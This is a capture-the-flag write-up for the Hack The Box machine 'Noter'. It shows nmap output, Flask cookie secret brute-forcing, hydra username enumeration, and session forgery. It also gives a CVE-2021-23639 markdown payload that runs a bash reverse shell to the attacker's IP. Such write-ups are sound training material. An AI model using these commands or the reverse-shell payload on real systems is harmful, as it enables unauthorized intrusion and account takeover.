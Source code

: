 # noterHTB
## nmap
```
nmap -sV -sC 10.10.11.160
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-12 18:13 CEST
Nmap scan report for 10.10.11.160
Host is up (0.062s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website
<img src="https://github.com/UllernJ/noterHTB/blob/main/noter.png">

## User
We try some standar easy admin/password combinations, but none of them works. So we go ahead and try to create our own user.
<p>Our new user is allowed to create notes, and what I first do here is getting tunnel vision and focusing on the xss posibility, after being down that rabit hole I realise that this isnt the intended way as none would be reading my notes.</p>
<p>Next thing I noticed is that our cookie is not a jwt token, therefore I did a little investigation and found out that flask also uses their own way to sign web tokens.</p>
<img src="https://github.com/UllernJ/noterHTB/blob/main/noter2.png">

### Token manipulation
I found this <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask">site</a> with some helpful commands.
```
flask-unsign --decode --cookie 'OURTOKEN'
{'logged_in': True, 'username': 'randomuser11'}
//Okay we know what our token contains, but what can we do now?
//We can bruteforce the secret.
flask-unsign --unsign --cookie < cookie.txt --wordlist rockyou.txt --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'randomuser11'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17024 attempts
b'secret123'
```
Okay now we have the secret key and can make a fake token for our user. So what we need to find now is other users to try this on.

### Finding other users.
When we try to login to our user with the wrong password is says: "Invalid login" meanwhile when you try a user that doesnt exist it says "Invalid credentials". Therefore we can filter out Invalid credtials and brute force our way to a user.
```
hydra 10.10.11.160 -s 5000 -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials" -p "a"
[5000][http-post-form] host: 10.10.11.160   login: blue   password: a
```
We find blue and we can forge a token to that user. We now have the login and we can access blue's notes. Also we can find his credentials to the ftp with more valueable information.
<img src="https://github.com/UllernJ/noterHTB/blob/main/noter3.png">
<img src="https://github.com/UllernJ/noterHTB/blob/main/noter4.png">

### ftp
On the ftp we find a policy.pdf file and we can read it. Its about all the companies policy on password.
<p> Specially this lines looks interesting: <b>Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)</b></p>
We try to enter the ftp_admin's ftp server and we can find the backup files to the webserver. With this information we can now figure out how we can do our reverse shell / break into the user.

### Reverse shell
When researching we can find two different exploits, one being the <a href="https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880">CVE-2021-23639</a> and breaking out of the single quotes on python. I decide to try the CVE exploit following:
<p></p>
1. I create two files named <b>bash</b> and <b>payload.md</b>.
<p></p>
In bash: the reverse shell.
<p></p>
In payload: ---js\n((require("child_process")).execSync("bash -i >& /dev/tcp/10.10.16.5/1234 0>&1
"))\n---RCE
2. I host a webserver and point them to my bash when they try to convert my .md file.
<p></p>
3. And we have user.
<img src="https://github.com/UllernJ/noterHTB/blob/main/noter5.png">

### Root
This part is a bit weird, but its actually something "easy". When we examined the app we got a root credientials to mysql and with that we can get root.
Everything is explained in <a href="https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf">this</a> article.

<img src="https://github.com/UllernJ/noterHTB/blob/main/noter6.png">
